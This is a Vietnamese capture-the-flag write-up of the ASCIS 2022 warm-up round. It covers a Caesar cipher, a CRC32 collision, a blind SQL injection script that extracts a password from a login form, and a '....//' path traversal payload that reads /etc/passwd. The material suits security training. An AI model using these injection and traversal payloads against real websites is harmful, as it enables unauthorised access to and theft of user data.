

# ASCIS 2022 - warm up

## Crypto

### I came, I saw, I conquered

#### chall

```
jhlzhy dhz h wvspapjphu huk nlulyhs vm aol shal yvthu ylwbispJ, dov nylhasf lealuklk aol yvthu ltwpyl ilmvyl zlpgpun wvdly huk tHrpun optzlsm kpjahavy vm yvtl, whcpun aol dhf mvy aol ptwlyphs zfzalt.

qbspbz jhlzhy dhz ivyu pu yvtL vu 12 vy 13 qbsf 100 ij puav aol wylzapnpvbz qbsphu jshu. opz mhtpsf dlyl jsvzlsf jvuuljalk dpao aol thyphu mhjapvu pu yvthu wvspapjz. jhlzhy optzlsm wyvnylzzlk dpaopu aol yvthu wvspapjhs zfzalt, iljvtpun pu zbjjlzzpvu xbhlZavy (69), hlkpsl (65) huk wyhlavy (62). pu 61-60 ij ol zlyclk hz nvclyuvy vm aol yvtHu wyvcpujl vm zwhpu. ihjr pu yvtl pu 60, jhlzhy thkl h whja dpao wvtwlf huk jyhzzbz, dov olswlk opt av nla lsljalk hz jvuzbs mvy 59 ij. aol mvssvdpun flhy ol dhz hwwvpualk nvclyuvy vm yvthu nhbs dolyl ol zahflk mvy lpnoa flhyz, hkkpun aol dovsl vm tvklYu myhujl huk ilsnpbt av aol yvthu ltwpyl, huk thrPun yvtl zhml myvt aol wvzzpipspaf vm nhsspj puchzpvuz. ol thkl adv lewlkpapvuz av iYpahpu, pu 55 ij huk 54 ij.

jhlzhy aolu yLabyulk av pahsf, kpzylnhykpun aol Hbaovypaf vm aol zluhal huk mhtvbzsf jyvzzpun aol ybipjvu ypcly dpaovba kpzihukpun opz hytf. pu aol luzbpun jpcps dhy jhlzhy klmlhalk aol ylwbispjhu mvyjlz. wvtwlf, aolpy slhkly, mslk av lnfwa dolyl ol dhz hzzhzzpuhalk. jhlzhy mvssvdlk opt huk iljhtl yvthuapjhSsf pucvsclk dpao aol lnfwaphu xbllu, jslvwhayh.

jhlzhy dhz uvd thzaly vm yvtl huk thkl optzlsm jvuzbs huk kpjahavy. ol bzlk opz wvdly av jhyyf vba tbjo-ullklk ylmvyt, ylsplcpun klia, lushynpun aol zluhal, ibpskpun aol mvybt pbspbt huk ylcpzpun aol jhslukhy. kpjahavyzopw dhz hsdhfz ylnhyklk h altwvyhyf wvzpapvu iba pu 44 ij, jhlzhy avvr pa mvy spml. opz zbjjlzz huk htipapvu hspluhalk zayvunsf ylwbispjhu zluhavyz. h nyvbw vm aolzl, slk if jhzzpbz huk iybabz, hzzhzzpuhalk jhlzhy vu aol pklz (15) vm thyjo 44 ij. aopz zwhyrlk aol mpuhs yvbuk vm jpcps dhyz aoha luklk aol ylwbispj huk iyvbnoa hivba aol lslchapvu vm jhlzhy'z nylha ulwold huk klzpnuhalk olpy, vjahcphu, hz hbnbzabz, aol mpyza ltwlyvy.
```

#### Work-flow

* Brute Decryt Caesar -> với key bằng 7 ta có được plaintext
* Để ý các chữ cái viết hoa
* Viết một đoạn script ngắn nối chúng lại

#### solve

```python
f = open("cipher.txt", "r")
cipher = f.read()
import string 
alpha = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"
for i in cipher: 
	if i == i.upper() and i in alpha :
		print(i, end="")
```

### Checksum

#### Chall

```python
import binascii

FLAG = 'ASCIS{XXXXXXXXXXX}'

def check_key(passwd):
    if len(passwd) < 16:
        return False
    if binascii.crc32(passwd.encode()) != binascii.crc32(FLAG.encode()):
        return False
    return True

password = input('What is the password?: ')
if check_key(password):
    print('Correct! Here is the flag: ' + FLAG)
else:
    print('Sorry! This is the hash we want:' + str(hex(binascii.crc32(FLAG.encode()))))
```


#### Work-flow

* Từ code ta phân tích được cần tìm một chuỗi có crc32 trùng với crc32 của FLAG
* Lúc này ta nhập bừa trước để có crc32 của flag
* Nhập thử nhiều lần để chắc rằng flag không bị refresh

<figure><figcaption></figcaption></figure>

* Đến đây ta decode hex và tìm được crc32 cần phải có là: **1706263782**

Lúc mới vào nhìn bài 1 mình hơi phân vân nên có nhảy sang bài 2 scout trước, ai ngờ đề có lỗi do không có trường hợp else để ra dạng crc32 của FLAG, lúc đó mình hơi hoảng và tư duy theo hướng brute force như thế nào?

Search quanh một xíu được vài tài liệu hay ho, chuẩn bị bắt tay vào code ... thì BTC fix lại đề, cập nhập thêm vế else uiiii thiên thời địa lợi nhân hòa, đến đây thì như cá gặp được nước rồi :)).

* Mình tìm được được doc [<mark style="color:blue;">này</mark>](https://github.com/fyxme/crc-32-hash-collider)<mark style="color:blue;"></mark>
* Người ta đã code sẳn tool rồi việc còn lại là đổi số **target** và **length** string cần tìm

```
const target = 1706263782 & 0xffffffff

// max string length
maxLen := 16
```

#### solve

<figure><figcaption><p>Lúc brute tool này thì cơ bản xem máy nào mạnh hơn thôi</p></figcaption></figure>

<figure><figcaption><p>Lâu lâu hóa chaos được lần </p></figcaption></figure>

* Kỉ niệm lâu lâu được lần solve thứ 2 :smile:

## WEB

### AscisStore1

#### chall

<figure><figcaption><p>Trang web bán hàng có chức năng login và register</p></figcaption></figure>

#### Work-flow

* Chọt phá dòng quanh -> khai thác SQLI ở login
* Thử với username như sau (có khoảng trắng ở sau dấu comment -- )

```
' or ord(substring(password,1,1)) = 65 --  
```

* Lúc này nhận thấy server trả về với user **`flag`**

<figure><figcaption></figcaption></figure>

* Như vậy có thể đoán được password của user flag chính là secret cần tìm
* Lúc này ta chỉnh lại query userser cho đúng với target, để tránh brute force sai

```
flag' and ord(substring(password,{index},1)) = {char} -- 
```

* and ở đây để cố định password cho username đã biết là flag
* nếu dùng or như ở trên sẽ dẫn đến trường hợp kết quả password query được chính là của toàn bộ database -> brute sai
* Ở đây mình không dùng query ở dạng char để so sánh vì SQL không phân biệt chữ hoa hay chữ thường, đúng vậy 's' = 'S' là **true** đấy. Lúc còn 30' cuối một thằng trong team la lên mới nhận ra chổ này, chuyển sang lại dec để brute, nếu không hẳn là quằng lắm :)).

#### solve

```python
import request

url = "http://34.143.158.202:4111/index.php?page=login"
#SELECT * from users WHERE username='flag' AND password = 'ord(substring(password,{index},1)) = {char} -- '

def solve():
	index = 1
	flag = ""
	while True:
		for char in range(32,128):
			usernamefield = f"flag' and ord(substring(password,{index},1)) = {char} -- "
			print(chr(char))
			passwordfield = "a"
			postParam = {'username': usernamefield, 'password': passwordfield}
			response = requests.post(url, data=postParam)
			if "flag" in response.text:
				flag += chr(char)
				print("index:",index,"  ", flag )
				index +=1
				break
		if flag.endswith("}"):
			break


solve()py
#index: 23    ASCIS{SQ11-I5-t0o-EA$Y}
```

### AscisStore2

#### Chall

<figure><figcaption><p>web bán hàng tương tự bài trên nhưng có chức năng profile</p></figcaption></figure>

#### Work-flow

* Chấm mút quanh chức năng mới -> chức năng profile cho đăng ảnh lên
* Rất có khả năng là File up load to RCE hoặc path travesal
* Up thử tấm ảnh nyc lên :

<figure><figcaption></figcaption></figure>

* Sau khi up lên ta thấy path trong đó có file image.php thì không còn nghi ngờ gì nữa -> path traversal for sure

<figure><figcaption></figcaption></figure>

#### solve

* Lần theo path rồi thử mọi cách path traversal thoi, chân ái is here:

```
....//....//....//....//....//....//....//....//....//etc/passwd
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Lời thú tội của một đá thủ

<figure><figcaption><p>Top 10 khu vực miền nam</p></figcaption></figure>

> Gửi lời cảm ơn chân thành nhất đến với các người ae trong team
>
> Lâu rồi mới có cảm giác thú vị như những ngày đầu tiên tham gia CTF
>
> 4 tiếng thi đấu - Một ngày vui và học được nhiều thứ, đến lúc lui về ở ẩn rồi
>
> Cảm ơn ae.


Thanks for reading. Have a good day :heart: !
